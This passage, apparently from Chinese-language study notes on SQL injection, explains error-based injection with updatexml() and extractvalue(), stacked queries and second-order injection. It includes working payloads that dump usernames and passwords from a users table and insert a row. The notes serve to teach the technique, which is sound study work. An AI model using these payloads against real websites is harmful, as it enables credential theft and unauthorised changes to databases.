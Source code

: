 ```
?id=0' and updatexml(1, concat('~',(select group_concat(username,':',password) from users),'~'), 1) --+

?id=0' and extractvalue(1, concat('~',(select group_concat(username,':',password) from users),'~')) --+

?id=0' and extractvalue(1, concat('~',(select substring(group_concat(username,':',password),10) from users),'~')) --+	//从第10个字符开始，之后的所有个字符,一次输出最多32个字符
```



##### 总结

利用**updatexml()**函数来进行报错注入点的**创造**，用**concat()**聚合函数来配合**updatexml()**函数来构造**非xml格式的语法**的**“故意出错”**，令**updatexml()**函数返回报错信息，我们就是利用这个报错的信息进行注入，返回**报错信息（我们需要的数据）**



#### 5.堆叠注入查询

**格式：**没有具体格式

堆叠顾名思义就是**多条SQL语句一起执行**。在MySQL中,语句结尾添加`;`表示语句结束。因此我们构造：`SQL语句1;SQL语句2`，并插入查询，就可以达到同时执行两条语句！

这里要区分union联合注入，虽然都是将两条语句合并在一起，但union联合注入或者unionall只能用来执行查询语句，而堆叠注入可以**执行任意类型的语句**。



**注意：**

1. 堆叠注入具有局限性，看数据库系统，也看版本，例如在Oracle数据库中是不支持的
2. 虽然堆叠查询可以执行任意的SQL语句，但是页面一般只能显示前一条语句执行结果，第二条语句我们无法得知它是否执行成功，第二个语句产生错误或者结果只能被忽略。

**例如：**

![QQ截图20210314202255](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/QQ%E6%88%AA%E5%9B%BE20210314202255.png)

上传语句

```
?id=0' union select 1,2,database() ; insert into users values (15,"test15","ant15") --+
```

![image-20210314202945697](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210314202945697.png)

查询数据库的结果，发现成功插入一个数据

![image-20210314203000284](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210314203000284.png)



#### 6.二次注入

**过程**

1. 插入恶意代码（转以后将原始数据**存取数据库**且提取时不做过滤）
2. 找到需要使用我们**插入恶意代码**的功能的地方（修改密码、留言板）
3. 正常使用此功能使其**触发之前的恶意代码**，造成SQL注入
